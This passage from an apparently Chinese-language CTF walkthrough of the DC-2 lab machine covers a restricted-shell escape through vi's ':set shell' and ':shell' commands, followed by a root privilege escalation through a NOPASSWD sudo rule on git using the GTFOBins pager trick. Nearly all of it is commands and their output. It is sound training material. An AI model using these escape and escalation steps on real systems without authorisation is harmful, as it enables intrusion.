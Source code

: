 ```
-rbash: PATH: readonly variable
tom@DC-2:~$ python -c 'import os; os.system("/bin/sh")'
-rbash: python: command not found
tom@DC-2:~$ python3 -c 'import os; os.system("/bin/sh")'
-rbash: python3: command not found
```
> 還是不行

使用 vi 可以 escape restricted shell，再加入 `/bin` 路徑
```
vi

:set shell=/bin/sh
:shell
$ whoami
/bin/sh: 1: whoami: not found
$ bash -i
/bin/sh: 2: bash: not found
$ su jerry
/bin/sh: 3: su: not found
$ export PATH=/bin:/usr/bin:$PATH
$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```
### 10. 使用 user jerry
```
$ su jerry
Password: 
jerry@DC-2:/home/tom$ ls /home/jerry
flag4.txt
jerry@DC-2:/home/tom$ cat flag4.txt
cat: flag4.txt: Permission denied
```
### 11. Sudo -l
```
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git

```
### 12. [GTFO](https://gtfobins.github.io/gtfobins/git/#sudo): git
```
jerry@DC-2:~$ sudo git -p help config
...
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
final-flag.txt  proof.txt
```
### ✅ Get Root FLAG
